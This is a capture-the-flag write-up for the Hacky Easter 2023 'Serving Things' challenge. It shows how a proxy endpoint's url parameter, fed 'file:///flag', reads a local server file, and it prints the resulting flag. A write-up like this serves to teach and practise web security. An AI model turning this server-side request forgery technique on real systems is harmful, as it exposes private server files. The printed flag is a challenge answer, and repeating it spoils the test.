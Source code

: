 # Description

# Serving Things

Get the 🚩 at /flag.

<http://ch.hackyeaster.com:2316>

Note: The service is restarted every hour at x:00.

# Solution

well i got an ssl error because of hsts in the browser, so lets try curl

```
curl http://ch.hackyeaster.com:2316/
<!DOCTYPE html>

<html>
<head>
<title>Serving Things</title>
    <link rel="stylesheet"
            href="/static/app.css">
        <script src="/static/jquery-3.6.3.min.js" language="javascript"></script>
    <script     src="/static/app.js" language="javascript"></script>
</head>

<body>
        <div id="menu">
        Get: <a id="quotes" href="#">Quotes</a> | <a id="colors" href="#">Colors</a> | <a id="stars" href="#">Stars</a> | 
                <a id="cheese" href="#">Cheese</a> | <a id="wine" href="#">Wine</a> | <a id="meals" href="#">Swiss Meals</a> | 
                <a id="trek" href="#">The Trek</a> | <a id="flag" href="#">Flag</a>
        </div>
        <div id="text">
        </div>
        <div id="footer">
                <div id="created">
                        Created by inik / 2023
                </div>
        </div>
</body>
</html>
```

well there is a strange problem as i can access the site without a redirect to https in a incognito tab

this is a funny thing you get when you press `flag`

```
Thank you hacker! But our flag is in another castle! ~ Bugs Bunny
```

looking in the browsers network tab when pressing on something i found this interesting request:

```
http://ch.hackyeaster.com:2316/get?url=http://quotes:1337/quote
```

so jeah looks like a random redirect!

well after a bit of trying i tried to actally get a local file and it worked:

<http://ch.hackyeaster.com:2316/get?url=file:///flag>

gave me the flag

# FLAG: he2023{4ls0-53rv3r-c4n-b3-1nj3ct3d!!!}
